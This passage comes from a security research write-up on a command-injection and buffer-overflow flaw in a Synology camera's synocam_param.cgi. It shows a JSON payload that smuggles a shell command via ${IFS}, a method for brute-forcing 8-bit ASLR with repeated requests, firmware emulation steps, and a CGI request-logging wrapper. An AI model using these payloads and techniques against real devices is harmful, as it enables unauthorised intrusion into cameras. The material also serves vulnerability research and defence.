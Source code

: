 ```json
{"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa;touch${IFS}/tmp/pwned;p\u0403v": ""}
```

The use of `${IFS}` is due to the `%s %s` format string utilized by `sscanf`. Brace expansion isn’t functional because it is not supported.

![brace_expansion](./images/brace_expansion.png)

## ASLR

The system uses 8-bit randomization, with the number of bits used stored in `/proc/sys/vm/mmap_rnd_bits`. Typically, the `system` function’s address appears as 0x768xx070, requiring only 256 times to locate it.

Upon receiving a new request, the web daemon forks a new `synocam_param.cgi` process to handle it. As the addresses are randomized with each fork, a fixed `system` function’s address must be transmitted, accompanied by multiple requests to increase the probability of aligning the new randomized `system` function’s address with the intended one.

In a new process, the newly randomized address is independent from its predecessor’s. Consequently, the probability of a match after n attempts is governed by $1 - (1 - p)^n$, where $p = 1/256$. There exists a 98% probability of success after dispatching 1000 requests to the camera.

# Exploit

After chrooting into `squashfs-root` inside emulation environment, web server can be started by using the following command:

```bash
/etc/rc.d/rc1.d/S01systemd start
```

It was observed that using the traditional method by running `/etc/init.d/rcS` failed to revive the web server.

The headers and the body of HTTP requests are passed to the CGIs as environment variables and stdin input. They can be retrieved using a simple wrapper like this:

```bash
# synocam_param.cgi

#!/bin/sh
date >>/tmp/dump.log
echo '------------------------ ENV ------------------------' >>/tmp/dump.log
env >>/tmp/dump.log
echo '------------------------ BODY -----------------------' >>/tmp/dump.log
read body
echo $body >>/tmp/dump.log
echo '------------------------ END ------------------------' >>/tmp/dump.log
echo >>/tmp/dump.log

echo $body | ./synocam_param.cgi.bak
```

